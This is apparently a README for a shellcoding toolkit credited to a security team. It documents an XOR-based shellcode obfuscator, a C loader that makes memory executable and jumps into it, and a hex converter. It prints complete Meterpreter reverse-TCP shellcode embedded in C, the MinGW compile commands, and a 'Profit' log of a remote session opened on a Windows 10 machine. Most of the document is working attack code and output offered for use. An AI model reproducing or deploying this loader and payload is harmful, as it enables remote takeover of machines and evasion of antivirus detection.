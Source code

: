 # Shellcoding
Shellcoding Utilities and shellcode obfuscator generator.


# Shellcode generator

Choose a key max size int32. Then generate the shellcode using `generator.exe`. The final payload is created using `generator.py`.

```
> generator.exe 1337 path_to_raw_shellcode_file
Encoded using the following key: 0x00000539 (1337)
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41
```

Generate the final payload to be compiled.

```
python3 generator.py 1337 \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41
#include <windows.h>

int main() {

    DWORD key = 0x539;
    DWORD dwSize = 23;
    DWORD dwProtection = 0;
    CHAR *shellcode = GlobalAlloc(GPTR, dwSize);
    VirtualProtect(shellcode, dwSize, PAGE_EXECUTE_READWRITE, &dwProtection);

    strcpy(shellcode, "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41");

    DWORD *current;
    int i = 0;
    for(i; i < dwSize / 4; i++) {
        current = (DWORD*)shellcode;
        *current = *current ^ key;
        shellcode += 4;
    }
    shellcode -= dwSize;

    asm ("mov %0, %%eax\n\t"
         "push %%eax\n\t"
         "ret"
         :
         : "r" (shellcode));

    // We are probably never going to reach that point
    GlobalFree(shellcode);
    return 0;
}
```

Finally, compile the output file using GCC and you are good to go.

# WARNING

The way that the code is designed will prevent self modifying shellcode to work properly. Since the shellcode is part of the .text section which is by default READ/EXEC shellcode that perform write action will crash. I'm planning on releasing a writable wrapper soon.

# Example:

Standard meterpreter shellcode

```
#include <Windows.h>

int main() {
    asm("call code\n\t"
        ".byte 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0xc5,0x84,0x68,0x02,0x00,0x1f,0x90,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5\n\t"
        "code:\n\t"
        "ret\n\t");

        return 0;
}
```

Compile it 

```
mingw32-gcc.exe -c meterpreter.c -o meterpreter.o
mingw32-g++.exe -o meterpreter.exe meterpreter.o
```

Profit

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:8080
[*] Sending stage (179779 bytes) to 192.168.197.1
[*] Meterpreter session 3 opened (192.168.197.132:8080 -> 192.168.197.1:50634) at 2019-05-11 10:54:26 -0400

meterpreter > sysinfo
Computer        : WTL-SP-4XXHWT2
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RingZer0
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

# loader.c

A simple shellcode loader in C. This shellcode loader is not storing the shellcode in the data section. It store it directly in the text section to new to do shady memory allocation to call your shellcode.

The ASM syntax is for GCC compiler it can be adapted for VC too

# raw2hex.py

Convert raw shellcode into something else

```
raw2hex.py rawshellcodefile -list
0x90, 0x90

raw2hex.py rawshellcodefile
\x90\x90
```

# makefile.py

Generate the final C code

```
makefile.py shellcode.raw output.c
```

# Credit
Mr.Un1k0d3r RingZer0 Team
